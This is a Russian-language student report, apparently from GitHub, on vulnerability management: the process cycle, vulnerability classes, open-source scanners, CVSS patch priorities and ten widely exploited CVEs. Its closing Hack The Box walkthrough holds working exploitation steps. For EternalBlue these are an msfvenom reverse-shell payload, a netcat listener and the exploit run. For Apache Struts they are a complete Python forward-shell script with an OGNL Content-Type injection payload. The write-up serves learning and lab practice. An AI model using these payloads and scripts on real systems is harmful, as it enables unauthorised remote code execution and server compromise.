# Задание 1.
### Управление уязвимостями.

Думаю, что нет смысла говорить, что такое уязвимость, поэтому сразу к делу.

Управление уязвимостями - это циклический процесс, направленный на обнаружение и классификацию уязвимостей, а также на их устанение или снижение последствий их эксплуатации.

Если пошагово рассмотреть структуру процесса управления уязвимостями, то получается что-то похожее на круговую поруку


  **1.**  	**Инвентаризация.** Как правило, начинается все с Инвентаризации. Смысл в том, чтобы выявить все устройства в сети, разбить их на однотипные группы (уровень детализации такого разбиения может варьироваться в зависимости от масштабов сети клиента или наличия большого числа специфических устройств), выбрать группы, в отношении которых оказывается услуга, узнать лиц, ответственных за выбранные группы.

   Важно не просто разово провести эту процедуру, а выделить паттерны, чтобы в любое время понимать, что происходит в сети, находить новые устройства, находить старые устройства, которые переехали, находить новые подтипы внутри групп и прочее.

  **2.**  	**Сканирование** начинается с планирования. После получения всей необходимой информации о изучаемой сети составляется план-график сканирования на уязвимости. Периодичность сканирования может быть любой. Внешний периметр рекомендуется проверять значительно чаще, чтобы минимизировать риск эксплуаатции 1-day(только что опубликованных) уязвимостей. Та же рекомендация касается и публичных Web-ресурсов клиента.

Важно использовать несколько разных сканеров, а также брать во внимание уязвимости, которые не определяются стандартными инструментами. Необходимо перед сканированием убедиться, что сканеры умеют находить все публичные уязвимости, в противном случае, если стандартного инструментария не хватает, нужно проводить поиск отдельных уязвимостей вручную.
  
  **3.** **Анализ результатов сканирования.** Наверное, самое сложное - это из километрового списка однотипных записей найти то, что нужно оставить, а что нужно исправить, и в каком порядке действовать. 
| Параметры оценивания результатов |
| ------------- |
| Доступность уязвимого устройства/сервиса для потенциального нарушителя |
| Наличие публичного эксплойта |
| Сложность эксплуатации |
| Потенциальный риск для бизнеса |
| Не является ли ложным срабатыванием |
| Сложность устранения |
| Прочее... |

  **4.** В **Запрос на устранение уязвимостей** после обработки результатов попадают "проверенные и одобренные" уязвимости. Проводятся консультации с ответственными за уязвимые устройства, рассказывается что найдено, чем это грозит и какие варианты минимазации рисков есть.

  **5.** **Устранение уязвимостей.** На этом этапе команда разработки занимается устранением найденной уязвимости. Бывает, когда уязвимость устранить не получается (на это есть целый ряд причин), в этом случае применяются творческие меры усложняющие эксплуаатцию уязвимости.

  **6.** **Контроль устранения уязвимостей.** Также существует человеческий фактор, который позволяет игнорировать устранение уязвимостей. Чтобы контролировать это и проверять качество проделанной работы проводят контроль устранения уязвимостей. Если уязвимость закрыта, запускается проверка, чтобы убедиться, что уязвимости больше нет. Т.к. проверка запускается на одну уязвимость, она занимает немного времени. Если уязвимость закрыта - это подтвреждается, иначе отправляется на доработку.

> Материал взят из [Процесс управления уязвимостями](https://www.ptsecurity.com/upload/corporate/ru-ru/webinars/ics/webinar_06mar.pdfz), [Управление уязвимостями: стандарты, реальность, инструменты](https://www.youtube.com/watch?v=h7nccGt9KE0&list=PLqVZIPeC5H0nN3w-EVxlzjH6mRuCUvFjW), [Как мы управление уязвимостями построили](https://habr.com/ru/company/acribia/blog/460048/)

### Какие бывают уязвимости и где встречаются?

Существует действительно много вариантов классификации уязвимостей. Например, классификация уязвимостей по степени риска, классификация уязвимостей по типу эксплуатации, классификации по уровню информационной структуры организации.

Я решил остановиться на варианте классификации по области происхождения.

| Уязвимости информационных систем. |
| ----------- |
| Уязвимости кода |
| Уязвимости конфигурации |
| Уязвимости архитектуры |
| Организационные уязвимости |
| Многофакторные уязвимости |

Уязвимости информационных систем по месту возникновения подразделяют на следующие:

#### Уязвимости ИС по месту возникновения
  **1. Уязвимости в общесистемном ПО.** К таким уязвимостям относятся уязвимости операционных систем, уязвимости систем управления базами данных, уязвимсоти специального инструментария, уязвимости общего програмного обеспечения.
  
  **2. Уязвимости в прикладном ПО.** Уязвимости офисных пакетов и иных типов прикладного ПО.
  
  **3. Уязвимости в специальном ПО.** Уязвимости микропрограмм в постоянных запоминающих устройствах, уязвимсоти базовой системы ввода-вывода, уязвимости ПО контроллеров управления.
  
  **4. Уязвимости в портативных технических средствах.** Уязвимости операционных систем мобильных устройств, уязвимости приложений для получения с мобильного устройства доступа в интернет.
  
  **5. Уязвимости в сетевом оборудовании.** Уязвимости маршрутизаторов, коммутаторов, уязвимости протоколов.
  
  **6. Уязвимости в средствах защиты информации.** Уязвимости в средствах управления доступом, средствах идентификации и аутентификации, средствах контроля целостности, средствах межсетевого экранирования.

> Также, разговаривая о уязвимостях, просто нельзя не упомянуть про [Топ 10 уязвимостей в веб приложениях](https://owasp.org/www-project-top-ten/)

> Материал взят из [ГОСТ Р 56546-2015 Защита информации. Уязвимости информационных систем. Классификация уязвимостей информационных систем](http://docs.cntd.ru/document/1200123702), [Угрозы, уязвимости и атаки в сетях](http://asher.ru/security/book/its/24), [Vulnerability (computing)
](https://en.wikipedia.org/wiki/Vulnerability_(computing))

### Опенсорсные инструменты для обнаружения уязвимостей.

Пробежимся по интсрументам.

  **1. OpenVas.** В основе работы OpenVAS-а лежит постоянно пополняемая коллекция NVT тестов безопасности (которых уже больше 30000), а также подключение к базе CVE, описывающей известные уязвимости. Исполнение NVT тестов позволяет выявить уязвимость, а CVE обеспечивает описание проблемы и способы её решения.

  Использование этого сканера не выглядит сложным и запутанным. Запускаем его, переходим по адресу localhost:9392, вводим логин и пароль, попадаем в консоль управления. Устанавливаем цели сканирования, выбираем конфигурацию сканирования и запускаем!
  
  Результат сканирования выглядит так: 

  **2. Nessus** - сканер для автоматизации проверки и обнаружения известных уязвимостей в системе. Исходный код закрыт, существует бесплатная версия Nessus Home, которая позволяет сканировать до 16 IP-адресов с такой же скоростью и подробным анализом, что и в платной версии.

Способен определять уязвимые версии служб или серверов, обнаруживать ошибки в конфигурации системы, выполнять bruteforce словарных паролей. Можно использовать для определения корректности настроек сервисов (почта, обновления и т.п.), а также при подготовке к PCI DSS аудиту. Кроме того в Nessus можно передать учетные данные для хоста (SSH или доменная учетная записи в Active Directory), и сканер получит доступ к хосту и проведет проверки прямо на нем. Удобен для компаний, проводящих аудиты собственных сетей.

  **3. Nexpose Community Edition** – инструмент поиска уязвимостей от компании, которая выпустила Metasploit. Версия Comunity полностью свободна, но она имеет ограничение, на одновременное сканирование до 32 IP адресов и только одного пользователя. Здесь нет сканирования веб-приложений, но зато поддерживается автоматическое обновление базы уязвимостей и получение информации об уязвимостях от Microsoft Patch.

  **4. Burp Suite** – как швейцарский армейский нож для тестирования веб-приложений. Burp Suite в своем огромном функционале имеет и сканеры. Его автоматический сканер уязвимостей основан на OWASP TOP 10 и других популярных ресурсах. 
  
  Результат сканирования выглядит так: 

  **5. OWASP Zed Attack Proxy (ZAP)** это  комплексный инструмент для поиска уязвимостей в веб-приложениях. Поддерживаются все, стандартные для такого типа программ возможности. Вы можете сканировать порты, проверять структуру сайта, искать множество известных уязвимостей, проверять корректность обработки повторных запросов или некорректных данных.

  Программа может работать по https, а также поддерживает различные прокси. Поскольку программа написана на Java, ее очень просто установить и использовать. Кроме основных возможностей, есть большое количество плагинов, позволяющих очень сильно увеличить функциональность.
  
  **6. Metasploit** – это интсрумент для создания, тестрирования и использования эксплоитов, имеющий широкий ряд инструментов для проведения сканирования. Имеет следующие сканеры: SMB Login Check, VNC-сканер, Веб-сканер WMAP, сканер хостов, сканер для повышения привилегий, поиск эксполитов

  **7. Nmap** – это не совсем сканер уязвимостей. Эта программа позволяет просканировать сеть и узнать какие узлы к ней подключены, а также определить какие сервисы на них запущенны. 
  
  **8. Sqlmap** – сканер с открытым исходным кодом, являющийся инструментом для тестирования на проникновение, который позволяет автоматизировать процесс обнаружения и использования SQL инъекций.
  
  **9. X-Scan** – многопоточный сканер уязвимостей от X-FOCUS для Windows систем. Программа позволяет искать уязвимые компьютеры к определенным эксплоитам в заданном диапазоне IP адресов.

> Существует еще много различных опенсорсных сканеров, я привел лишь малую часть наиболее популяных и тех, с которыми мне довелось поработать.

### Рекомендации по устранению уязвимостей.

Было непросто найти обоснованное ранжирование и рекомендации по устранению уязвимостей в зависимости от их критичности. Я поглужался все глубже в изучение вопросов управления уязвимостей. В какой-то момент мне удалось узнать об CVSS(общей системе оценкий уязвимостей).

Изучив более подробно их методы оценки, можне составить следующее ранжирование:

>  Приоритетное ранжирование зависит от оценки уязвимости CVSS. Оценка CVSS определяется на основе условий доступа и воздействия уязвимости, а также зависящих от времени качеств уязвимости, таких как наличие исправлений и эксплойтов. POC группы оповещений безопасности отвечают за назначение оценки CVSS для оповещения. Затем уязвимость оценивается в базе данных оповещений и обсуждается на запланированном собрании группы по оповещениям безопасности.

| Оцента CVSS | Приоритет | Время на исправление |
| ----------- | --------- | -------------------- |
|      0      |    P4     |                      |
|    .1-3     |    P3     |   Максимум 3 месяца  |
|     4-6     |    P2     |   Максимум 4 недели  |
|     7-10    |    P1     |   Максимум 2 недели  |

> Используемые материалы: [Common Vulnerability Scoring System](https://www.first.org/cvss/specification-document), [Patching Policy](https://www.first.org/cvss/v2/cvss-based-patch-policy.pdf)

# Задание 2.
## Топ 10 критических уязвимостей за последние 5 лет.

Это больше, наверное, творческое задание. Я долго думал как мне определить критичность уязвимости для составления топа, потому что существуют как масштабные уязвимости, например EternalBlue, так и менее масштабные, но также критические, потому что могут привести к компрометации инфраструктуры. Я пришел к варианту, что буду считать наиболее критическими уязвимостями те, которые чаще всего эксплуатировались за последние 5 лет. К моему счастью, периодически всплывает в интернете такая статистика.


|  №  | Топ 10 критических уязвимостей |
| --- | ------------------------------ |
|  1  | CVE-2017-11882|
|  2  | CVE-2017-0199 |
|  3  | CVE-2017-5638 |
|  4  | CVE-2012-0158 |
|  5  | CVE-2019-0604 |
|  6  | CVE-2017-0143 |
|  7  | CVE-2018-4878 |
|  8  | CVE-2017-8759 |
|  9  | CVE-2015-1641 |
|  10 | CVE-2018-7600 |


Уязвимые продукты: Microsoft Office 2007 SP3, 2010 SP2, 2013 SP1, 2016

Microsoft Office 2007 SP3, Microsoft Office 2010 SP2, Microsoft Office 2013 SP1 и Microsoft Office 2016 позволяют злоумышленнику запускать произвольный код в контексте текущего пользователя, если ему не удается правильно обработать объекты в памяти, иначе » Уязвимость Microsoft Office, приводящая к повреждению памяти ".

Связанная малварь: Loki, FormBook, Pony/FAREIT


Уязвимые продукты: Microsoft Office 2007 SP3, 2010 SP2, 2013 SP1, 2016, Vista SP2, Server 2008 SP2, Windows 7 SP1, Windows 8.1

Microsoft Office 2007 SP3, 2010 SP2, 2013 SP1, 2016, Vista SP2, Server 2008 SP2, Windows 7 SP1, Windows 8.1 позволяют злоумышленникам удаленно выполнять произвольный код с помощью специально созданного документа. Уязвимость известна как "Уязвимость удаленного выполнения кода Microsoft Office / WordPad w / Windows API.".

Связанная малварь: FINSPY, LATENTBOT, Dridex


Уязвимые продукты: Apache Struts 2 2.3.x до 2.3.32 и 2.5.x до 2.5.10.1

Анализатор Jakarta Multipart в Apache Struts 2.3.x до 2.3.32 и 2.5.x до 2.5.10.1 имеет некорректную обработку исключений и генерацию сообщений об ошибках во время попыток загрузки файла, что позволяет злоумышленникам удаленно выполнять произвольные команды с помощью специально созданных Content-Type, Content-Disposition, или Content-Length HTTP хэдеров, которые были использованы с заголовком Content-Type, содержащим строку #cmd=.

Связанная малварь: JexBoss


Уязвимые продукты: Microsoft Office 2003 SP3, 2007 SP2 и SP3 и 2010 Gold и SP1; веб-компоненты Office 2003 SP3; SQL Server 2000 SP4, 2005 SP4 и 2008 SP2, SP3 и R2; BizTalk Server 2002 SP1; Commerce Server 2002 SP4, 2007 SP2 и 2009 Gold и R2; Visual FoxPro 8.0 SP1 и 9.0 SP2; Visual Basic 6.0

Уязвимость позволяет злоумышленникам удаленно выполнять произвольный код через специально созданный (a) веб-сайт, (b) документ Office или (c) .rtf файл, который вызывает поврежденное состояние системы.

Связанная малварь: Dridex


Уязвимые продукты: Microsoft SharePoint

В Microsoft SharePoint существует уязвимость удаленного выполнения кода, когда программное обеспечение не может проверить исходную разметку пакета приложения.

Связанная малварь: China Chopper


Уязвимые продукты: Microsoft Windows Vista SP2; Windows Server 2008 SP2 и R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold и R2; Windows RT 8.1; и Windows 10 Gold, 1511 и 1607; Windows Server 2016

Сервер SMBv1 в Microsoft Windows Vista SP2; Windows Server 2008 SP2 и R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold и R2; Windows RT 8.1; и Windows 10 Gold, 1511 и 1607; Windows Server 2016 позволяет злоумышленникам удаленно выполнять произвольный код с помощью специально созданных пакетов.

Связанная малварь: многократное использование EternalSynergy и EternalBlue


Уязвимые продукты: Adobe Flash Player до 28.0.0.161

Уязвимость use-after-free была обнаружена в Adobe Flash Player до 28.0.0.161. Эта уязвимость возникает из-за болтающегося указателя в Primetime SDK, связанного с обработкой медиаплеером объектов прослушивателя. Успешная атака может привести к выполнению произвольного кода.

Связанная малварь: DOGCALL


Уязвимые продукты: Microsoft .NET Framework 2.0, 3.5, 3.5.1, 4.5.2, 4.6, 4.6.1, 4.6.2 и 4.7

Microsoft .NET Framework 2.0, 3.5, 3.5.1, 4.5.2, 4.6, 4.6.1, 4.6.2 и 4.7 позволяют злоумышленнику удаленно выполнять код через вредоносный документ или приложение.

Связанная малварь: FINSPY, FinFisher, WingBird


Уязвимые продукты: Microsoft Word 2007 SP3, Office 2010 SP2, Word 2010 SP2, Word 2013 SP1, Word 2013 RT SP1, Word for Mac 2011, Office Compatibility Pack SP3, Word Automation Services на SharePoint Server 2010 SP2 и 2013 SP1, Office Web Apps Server 2010 SP2 и 2013 SP1

Уязвимость позволяет злоумышленникам удаленно выполнять произвольный код с помощью специально созданного документа RTF.

Связанная малварь: Toshliph, UWarrior


Уязвимые продукты: Drupal до 7.58, 8.x до 8.3.9, 8.4.x до 8.4.6 и 8.5.x до 8.5.1

Drupal до 7.58, 8.x до 8.3.9, 8.4.x до 8.4.6 и 8.5.x до 8.5.1 позволяют злоумышленникам удаленно выполнять произвольный код из-за проблемы, затрагивающей несколько подсистем с конфигурациями по умолчанию или с общими конфигурациями модулей.

Связанная малварь: Kitty

> Используемые материалы: [Top 10 Most Exploited Vulnerabilities 2016–2019](https://us-cert.cisa.gov/ncas/alerts/aa20-133a), [FBI and DHS Share List of Top 10 Most Exploited Vulnerabilities](https://cybersecuritynews.com/10-most-exploited-vulnerabilities/)

# Сетевые атаки и их эксплуатация

Из перечисленного выше топа критических уязвимостей, три из них успользуются для сетевых атак, т.е. эксплуатация осуществляется путем посылки запроса на какой-либо порт.

|  №  | Уязвимость, используемая в сетевой атаке |
| --- | ---------------------------------------- |
|  1  | CVE-2017-5638 |
|  2  | CVE-2017-0143 |
|  3  | CVE-2018-7600 |

Ниже описана подробная эксплуатация всех трех уязвимостей.

## Эксплуатация уязвимости EternalBlue - CVE-2017-0144

### Предыстория

Изначально эксплоит был опубликован в сети хакерской группировкой «The Shadow Brokers» 14 апреля 2017 года во время их пятой утечки «Lost in Translation». Утечка включала в себя большое количество инструментов эксплуатации, таких как EternalBlue, которые основаны на множественных уязвимостях в реализации протокола SMB в Windows.

EternalBlue работает на всех версиях Windows до Windows 8. Эти версии содержат межпроцессный общий ресурс связи (IPC $), который допускает нулевой сеанс. Это означает, что соединение установлено через анонимный вход, и нулевой сеанс разрешен по умолчанию. Нулевой сеанс позволяет клиенту отправлять различные команды на сервер.

EternalBlue использует 3 ошибки для достижения RCE:

1) Ошибка неправильного кастинга
2) Ошибка неправильной функции синтаксичесгого анализа
3) Ошибка распределение пула для подкачки

> [В этой статье](https://research.checkpoint.com/2017/eternalblue-everything-know/) подробно описана причина уязвимости.

### Эксплуатация

> Действия был проведены на специально подготовленной коробке **Blue**, принадлежащей платформе Hack The Box. Этапы, которые не касаются эксплуатации: разветка, перечисление и т.д. будут опущены. [Ссылка на нее.](https://www.hackthebox.eu/home/machines/profile/51)

Мы имеем следующий список запущенных служб:



Из скриншота выше видно, что коробка уязвима для EternalBlue. Это дает мне возможность удаленного исполнения кода. Приступим к поиску эксплоита.

```bash
searchsploit --id MS17-010
```



Мы работаем с Windows 7, поэтому будем использовать эксплойт № 42315. Клонировать эксплоит в рабочий каталог можно с помощью этой команды

```bash
searchsploit -m 42315
```

[Посмотрев код эксплоита](https://www.exploit-db.com/exploits/42315), нужно сделать следующие три вещи:

1. Загрузить mysmb.py, поскольку эксплойт импортирует его. Местоположение загрузки включено в эксплойт.
2. Использовать MSFvenom для создания обратной загрузки оболочки.
3. Внести изменения в эксплойт, чтобы добавить учетные данные для аутентификации и пайлоад обратной оболочки.

Скачивайем файл и переименовываем его в mysmb.py

```bash
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
mv 42315.py.1 mysmb.py
```

Теперь используем MSFvenom для генерации простого исполняемого файла с пайлоадом реверс шелла.

```bash
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.6 LPORT=4444 > eternal-blue.exe
```

Осталось совсем немного. Изменяем экспоит, вписывая в него учетные данные.

> Пропускаю этап определения учетных данных, т.к. он не в ходит в рамки изучения способа эксплуатации уязвимости EternalBlue. Скажу лишь, что был разрешен гостевой вход.

Добавляем учетные данные в скрипт

```bash
USERNAME = 'guest'
PASSWORD = ''
```

Точно так же добавляем расположение исполняемого файла реверс шелла и получаем готовый скрипт!



Теперь, когда мы выполнили три задачи, настраиваем прослушиватель но атакующей машине

```bash
nc -nlvp 4444
```

Запускаем эксплоит

```bash
python 42315.py 10.10.10.40
```

Получаем оболочку с системными привилегиями! Ура!



> Используемые материалы: все перечисленное выше, [EternalBlue - Эксплуатация Windows PC](https://codeby.net/threads/eternalblue-ehkspluatacija-windows-pc.59674/), [Exploit EternalBlue with Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/)

> Рекомендация по поискам эксплоитов: [База данных эксплоитов](https://www.exploit-db.com/)


## Эксплуатация уязвимости CVE-2017-5638 - Apache Struts

> Эксплуатация данной уязвимости также будет демонстрироваться на уязвимом контейнере платформы Hack The Box. [Ссылка на него](https://www.hackthebox.eu/home/machines/profile/129)

### Предыстория

Apache Struts - это бесплатная среда с открытым исходным кодом, используемая для создания веб-приложений Java.

Эта конкретная уязвимость может быть использована, если злоумышленник отправит специально сформированный запрос на загрузку файла на уязвимый сервер, который использует плагин на основе Jakarta для обработки запроса на загрузку.

Данная уязвимость возникает из-за того, что Content-Type не экранируется после ошибки, а затем используется функцией LocalizedTextUtil.findText для создания сообщения об ошибке.

### Эксплуатация

Маленький скриншот того(подробный вывод уж слишком большой), с чем будем иметь дело.



За дело!



Action-приложение на веб-странице выше определяет наши дальшейние действия. Расширение .action недвусмысленно намекает на использование MVC-фреймворка веб-приложений Apache Struts, Гугл кричит об этом с первой же ссылки.

[Здесь](https://github.com/mazen160/struts-pwn) мне удалось найти эксплоит и краткую информацию о его использовании. Энтузиаты github как всегда выручают. Этот скрипт представляет PoC уязвимости [CVE-2017-5638](https://www.exploit-db.com/exploits/41614), имеющей максимальный рейтинг опасности (10.0) и заключающейся в некорректной обработке исключений, вследствие которой аттакующий получает возможность выполнения произвольных команд на сервере.

Используем git clone, а затем запускаем

```bash
python struts-pwn.py --url http://10.10.10.64:8080/Monitoring/example/Welcome.action -c 'id'
```

Можно видеть, как команда действительно сработала.



В принципе, на этом разбор базовой эксплуатации этой уязвимости можно заканчивать, но давай повеселимся и создадим полноценный шелл!

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Usage: python3 StratosphereFwdShell.py

import urllib.request as urllib2
import http.client as httplib
# _import socket

import base64
import random
import threading
import time


class Stratosphere:

	URL = r'http://10.10.10.64/Monitoring/example/Welcome.action'

	def __init__(self, interval=1.3):
		self.url = Stratosphere.URL

		session = random.randrange(10000, 99999)
		self.stdin = f'/dev/shm/input.{session}'
		self.stdout = f'/dev/shm/output.{session}'
		print(f'[*] Session ID: {session}')

		# Setting up shell
		print('[*] Setting up forward shell on target')
		createNamedPipes = f'mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh > {self.stdout} 2>&1'
		self.runRawCmd(createNamedPipes, timeout=0.5)

		# Setting up read thread
		print('[*] Setting up read thread')
		self.interval = interval
		thread = threading.Thread(target=self.readThread, args=())
		thread.daemon = True
		thread.start()

	def readThread(self):
		getOutput = f'/bin/cat {self.stdout}'
		while True:
			result = self.runRawCmd(getOutput).decode('utf-8')
			if result:
				print(result)
				clearOutput = f'echo -n "" > {self.stdout}'
				self.runRawCmd(clearOutput)
			time.sleep(self.interval)

	# Source: https://www.exploit-db.com/exploits/41570
	def runRawCmd(self, cmd, timeout=50):
		payload = "%{(#_='multipart/form-data')."
		payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
		payload += "(#_memberAccess?"
		payload += "(#_memberAccess=#dm):"
		payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
		payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
		payload += "(#ognlUtil.getExcludedPackageNames().clear())."
		payload += "(#ognlUtil.getExcludedClasses().clear())."
		payload += "(#context.setMemberAccess(#dm))))."
		payload += "(#cmd='%s')." % cmd
		payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
		payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
		payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
		payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
		payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
		payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
		payload += "(#ros.flush())}"

		headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
		request = urllib2.Request(self.url, headers=headers)

		try:
			return urllib2.urlopen(request, timeout=timeout).read()
		except httplib.IncompleteRead as e:
			return e.partial
		except:  # _socket.timeout:
			pass

	def writeCmd(self, cmd):
		b64Cmd = base64.b64encode(f'{cmd.rstrip()}\n'.encode('utf-8')).decode('utf-8')
		unwrapAndExec = f'base64 -d <<< {b64Cmd} > {self.stdin}'
		self.runRawCmd(unwrapAndExec)
		time.sleep(self.interval * 1.1)

	def upgradeShell(self):
		upgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
		self.writeCmd(upgradeShell)


prompt = 'stratosphere> '
S = Stratosphere()

while True:
	cmd = input(prompt)
	if cmd == 'upgrade':
		prompt = ''
		S.upgradeShell()
	else:
		S.writeCmd(cmd)
```

У меня получилось найти такой скрипт. Основная идея такого способа получения командной строки заключается в создании на машине жертвы именованного канала (stdin) с помощью mkfifo и выходного файла (stdout), куда будет записываться вывод команд. После чего к stdin с помощью утилиты tail привязывается процесс /bin/sh, вывод которого перенаправляется в stdout. Флаг -f утилиты tail обеспечивает сохранение процесса выполнения команд даже при достижении конца файла входного канала (когда команды не поступают). В представленном выше скрипте используется именно такая логика, плюс на фоне поднимается параллельный поток, который с некоторым интервалом опрашивает stdout и возвращает его содержимое.

Подробнее об этом способе можно узнать из [туториала](https://www.youtube.com/watch?v=k6ri-LFWEj4&feature=youtu.be&t=15m35s) прохождения машины с VulnHub’а от IppSec’а.

## Эксплуатация уязвимости CVE-2018-7600 - Drupal

> "Развернуть SharePoint - это очень трудоемкий процесс." - Грант.

> Именно поэтому тут разбор уязвимости в Drupal, а не SharePoint :)

### Предыстория

28 марта 2018 года группа безопасности ядра Drupal выпустила рекомендацию по безопасности SA-CORE-2018-002, в которой обсуждается критическая уязвимость CVE-2018-7600, позже прозванная drupalgeddon2. Уязвимость присутствует во всех версиях Drupal 7.x до 7.58 , 8.3.x до 8.3.9 , 8.4.x до 8.4.6 и 8.5.x до 8.5.1.

По оценкам, уязвимость затрагивает более миллиона пользователей и веб-сайтов Drupal. Уязвимость делает возможным удаленное выполнение кода и является следствием недостаточной проверки ввода в API формы Drupal 7.

Злоумышленник может использовать эту уязвимость, чтобы заставить сервер, на котором работает Drupal, выполнять вредоносный код, который может полностью скомпрометировать установку Drupal. В зависимости от конкретной конфигурации это может потенциально поставить под угрозу хост-машину. Эта уязвимость особенно критична из-за того, что ничто не уменьшает доступ к уязвимости: анонимный пользователь использует ее для удаленного выполнения кода без аутентификации.

